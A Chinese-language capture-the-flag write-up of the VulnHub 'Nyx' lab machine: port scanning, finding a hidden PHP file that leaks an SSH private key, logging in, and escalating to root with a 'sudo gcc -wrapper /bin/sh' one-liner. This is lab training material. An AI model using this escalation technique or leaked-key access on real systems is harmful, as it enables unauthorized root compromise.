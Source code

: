 # 靶机信息
 nyx是vulnhub中的一台容易类型的CTF类型靶机

# 信息收集
`
┌──(kali㉿kali)-[~]
└─$ nmap -sT --min-rate 10000 -p- 192.168.218.204  
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-22 03:17 EDT
Nmap scan report for 192.168.218.204 (192.168.218.204)
Host is up (0.00045s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:52:69:55 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 2.63 seconds
`
只开放了两个端口，直接看web服务

# WEB信息枚举
打开网页，查看源代码

<img width="1917" height="724" alt="Image" src="https://github.com/user-attachments/assets/5af37f43-d7e5-42d4-9d28-6b7919910b9a" />

没提示，扫一下目录
扫到一个 key.php 
进去看一下

<img width="1919" height="804" alt="Image" src="https://github.com/user-attachments/assets/18af4b5d-d50f-48fb-a6f6-a6768c45d563" />

有一个输入框，需要 key 值，但是找了一会没有什么发现，发现输入 root 和 admin 有不一样的回显但是之后又没思路了，由于之前扫描的时候只扫了tcp，想着是简单机器就没继续扫了，后面卡了很久，然后无聊就重新跟进了一遍流程在使用 nmap 的 vuln 脚本扫描的时候，还真新扫出来了一个文件，d41d8cd98f00b204e9800998ecf8427e.php 以空字符的 MD5 值作为文件名
访问就拿到了私钥，然后生成公钥

`
┌──(kali㉿kali)-[~/…/stageOne/writeup/vulnhub/nyx]
└─$ ssh-keygen -y -f ssh_pri.key
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDtP3hOZuqJGVzqMaHpQ4rIpW7H5tiiyQB07Ju2AJ+iHTrgJMctMxMc2ddYjyxPUyXX2y+9UadlkqYNNtL/u46mCya87SmaqKsJWjRS8PRiEpdUTCRO2ZS88E8Be5wZG158lwK0tadJzjIy3NtjNJgS6W1RbkR+qpPB+OHjx/G8uTX+TOc7sSSfGksy6l/qEnM1sYsttHAg14iN0LSTqIx0ytnefnwKGjeSKA0pKpzIGmR48T5G+cIF6C3EFf+bWlSM+NgpjN1nQNE5DJTe3ta7qJfhNbrzxp0eMCBc/sRE3S0vpGgkH28fE7UaYa3kIugkFg0PW4uhNF6nvGQg/DCD mpampis@nyx
`

然后登录
`
┌──(kali㉿kali)-[~/…/stageOne/writeup/vulnhub/nyx]
└─$ ssh -i ssh_pri.key mpampis@192.168.218.204
`

# 提权
`
mpampis@nyx:~$ sudo -l
Matching Defaults entries for mpampis on nyx:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User mpampis may run the following commands on nyx:
    (root) NOPASSWD: /usr/bin/gcc
mpampis@nyx:~$ 
`
我这里参考的 [GCC](https://gtfobins.github.io/gtfobins/gcc/) 这个网站，十分推荐。

`
mpampis@nyx:~$ sudo gcc -wrapper /bin/sh,-s .
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
# 
`
提权很简单

# 反思
靶机很简单，但是找入口不容易，本来之前都会进行vuln，恰好今天懒了，没有扫描导致，在入口的地方卡了很久。